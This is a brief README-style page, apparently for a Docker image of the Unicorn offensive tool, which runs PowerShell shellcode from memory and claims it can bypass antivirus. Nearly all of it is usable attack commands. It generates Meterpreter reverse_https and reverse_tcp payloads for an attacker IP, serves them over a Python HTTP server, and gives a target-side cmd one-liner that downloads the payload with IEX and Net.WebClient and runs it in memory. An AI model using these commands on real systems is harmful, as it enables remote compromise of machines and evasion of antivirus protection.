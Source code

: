 #### 1. About

- URL: `https://github.com/trustedsec/unicorn`
- Run shellcode straight from memory via PowerShell (can bypass AV)


#### 2. Build
```
# docker build -t unicorn .
```


#### 3. Example

Local:
```
# docker run --rm -it -v /tmp:/tmp -p4000:4000 unicorn windows/meterpreter/reverse_https 192.168.9.11 4000
...
# docker run --rm -it -v /tmp:/tmp -p4000:4000 unicorn windows/shell/reverse_tcp 192.168.9.11 4000
# cd /tmp/ && python -m SimpleHTTPServer 4001
```
Note: payload will be placed under `/tmp/payload`

Target:
```
C:\>cmd.exe /C echo IEX(New-Object Net.WebClient).DownloadString('http://192.168.9.11:4001/payload') | powershell -noprofile -
```
